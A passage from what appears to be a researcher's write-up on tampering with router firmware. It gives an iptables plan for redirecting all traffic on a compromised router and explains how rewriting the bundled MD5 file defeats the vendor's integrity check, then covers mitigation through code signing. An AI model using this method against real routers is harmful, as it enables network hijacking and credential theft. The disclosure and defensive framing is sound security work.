For the the second thing I wanted to do: "Direct all traffic to a locally hosted web page which would show a funny video". Here is a end-to-end flowchart of how I would have went about it,

```
┌─────────────────────────────────────────────────────────┐
│                    CLIENT DEVICE                        │
│         tries to visit any website                      │
└─────────────────────────┬───────────────────────────────┘
                          │ all outgoing traffic
                          ▼
┌─────────────────────────────────────────────────────────┐
│                  COMPROMISED ROUTER                     │
│                                                         │
│   iptables PREROUTING (NAT table)                       │
│                                                         │
│        :80  ──────────────────────────┐                 │
│        :443 ──────────────────────────┤                 │
│        other ─────────► DROP          │                 │
│                                       │ DNAT            │
│                                       ▼                 │
│                          router:8080 (localhost)        │
│                                                         │
│   ┌───────────────────────────────────────────────┐     │
│   │  nginx / web server (running as www-data)     │     │
│   │                                               │     │
│   │  serves: /var/www/html/index.html             │     │
│   │          └── funny video embedded             │     │
│   │                                               │     │
│   │  no directory listing                         │     │
│   │  no dynamic content                           │     │
│   │  single static file only                      │     │
│   └───────────────────────────────────────────────┘     │
└─────────────────────────────────────────────────────────┘
                          │
                          ▼
┌─────────────────────────────────────────────────────────┐
│                 WHAT CLIENT SEES                        │
│                                                         │
│   HTTP  :80  ──► funny video page  (works cleanly)      │
│   HTTPS :443 ──► cert warning or connection refused     │
│                  (no valid cert for google.com etc.)    │
│   other        ──► times out / dropped                  │
└─────────────────────────────────────────────────────────┘
```

### Niffler (GL-AR150-POE)

[complete this section plej]

## Cool...but how does it impact me? What are the likelihood of this happening to me? How do I mitigate it?

### Impact

The impact here is pretty massive when you think about it. A router isn't like a laptop or a phone where a compromise only affects that single device. A router is the gateway for your entire network, so literally every single byte of data you send or receive flows right through it.

If an attacker gets root access to the firmware, they essentially own everything behind it. Because firmware updates on home and small office routers are so rare, a backdoor planted here could easily sit quietly for months or even years without anyone noticing. The router just keeps routing, and everything looks completely normal on the surface.

From there, the possibilities are pretty much endless. Since the attacker controls the network level, they can easily hijack DNS resolutions. Instead of directing you to the real Facebook, Google, or your online banking portal, they can transparently point your traffic to an exact lookalike phishing page hosted on their own server to harvest your credentials. HTTPS makes this trickier nowadays, but it’s definitely not a magic bullet and especially when the gateway itself is subverted.
### Likelihood

Low. But there are specific situations where it is not that low and those are worth thinking about.

The main problem for an attacker is delivery. They need to somehow get their modified firmware onto your router which means either tricking someone with admin access into flashing it, or doing a man in the middle attack on a firmware download, or having some form of direct access to the device. None of those are easy.

That said, in a workplace with multiple routers managed by a small team, a malicious insider could push a modified image to every device in one go with a simple script. In environments where routers are physically accessible to people you do not fully trust, like shared offices or hospitality networks, the physical attack surface is very real. And in supply chains where devices pass through multiple hands, there is a window for tampering that most end users would never catch.

For a home user who downloads firmware directly from the vendor's website, the risk is genuinely low. For a managed network where physical access is not tightly controlled or where updates are pushed by third parties... worth taking seriously.

### Mitigation

**For Users and Admins:**  
The absolute best defense is a strict rule of thumb: never trust a firmware file that just "appears." Always download updates directly from the vendor's official HTTPS website, and verify the file hashes if they provide them. Don't flash firmware from an untrusted flash drive or a third-party link.

Additionally, if your router is past its end-of-life (EOL) date and stops receiving security patches, it’s time to retire it. Running legacy hardware means known issues stay unpatched forever.

**For Vendors:**  
The core problem here is that a simple checksum mechanism only verifies **integrity** (making sure the file didn't get corrupted during download). It does absolutely nothing to verify **authenticity** (proving who actually made the file). Because the MD5 file sits right inside the package, anyone who modifies `squashfs.tmp` can just run `md5sum` and update the companion `.md5` file to match, completely bypassing the check.

The real fix is moving to an asymmetric code-signing framework. The vendor needs to sign the firmware image with a secure private key at build time, and the router needs to verify that signature using a public key permanently baked into its bootloader before extracting anything. Since an attacker doesn't have the vendor's private key, they can't forge a valid signature, closing this exploit vector completely.

## Closing

This project started as me wanting to do something fun with a few old routers that were collecting dust. It ended with me bricking one of them, learning more about Linux filesystems, bootloaders, and init systems than I expected, and writing more shell scripts than I ever wanted to. The vulnerability itself is not complicated, which is kind of the point. A decade-old design decision to skip firmware signing is still sitting in actively maintained software in 2025, on devices that are in real networks, managing real traffic. You do not need a sophisticated attack to exploit it. You just need a hex editor, some patience, and the ability to run `md5sum`. If that does not make a case for firmware signing, I am not sure what does.
